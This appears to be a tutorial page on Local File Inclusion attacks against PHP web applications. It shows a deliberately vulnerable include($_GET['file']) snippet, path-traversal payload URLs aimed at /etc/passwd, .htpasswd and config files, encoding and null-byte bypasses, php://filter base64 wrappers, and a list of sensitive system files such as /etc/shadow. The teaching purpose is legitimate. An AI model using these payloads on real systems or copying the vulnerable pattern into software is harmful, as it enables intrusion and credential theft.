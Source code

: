 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

```bash
https://website-example.com/?page=filename.php
https://website-example.com/?page=../../../../etc/test.txt
https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd
https://example-vulnerable-website.com/?module=/etc/passwd
https://example-vulnerable-website.com/?module=contact.php
http://www.example_target_website.com/download.php?file=../../../../etc/passwd
http://www.example_target_website.com/download.php?file=document.html
https://example-vulnerable-website.com/?helpfile=login.txt
https://example-vulnerable-website.com/?module=uploads/image123.gif
https://example-vulnerable-website.com/?download=brochure.pdf
https://example-vulnerable-website.com/?download=../include/connection.php
```
#### An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

```bash
include
require
include_once 
require_once 
```
#### The following is an example of PHP code that is vulnerable to LFI. 
```bash
<?PHP 
    include($_GET["file"]);
?>
```
The PHP code above uses a `GET` request via the URL parameter `file` to include the file on the page. The request can be made by sending the following HTTP request: `http://example.thm.labs/index.php?file=hello.txt` to load the content of the `hello.txt` file that exists in the same directory.

The following are some Linux system files that have sensitive information.
```bash
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```
```
http://website.com/index.php?err=../../../../../../../../etc/passwd HTTP/1.1
```
```
http://example.thm.labs/page.php?file=/etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```

#### PHP Filter

```
lfi=php://filter/resource=/etc/passwd

lfi=php://filter/convert.base64-encode/resource=/etc/passwd
```
#### Base64 Decoding
```
echo "base64_code" | base64 -d
```
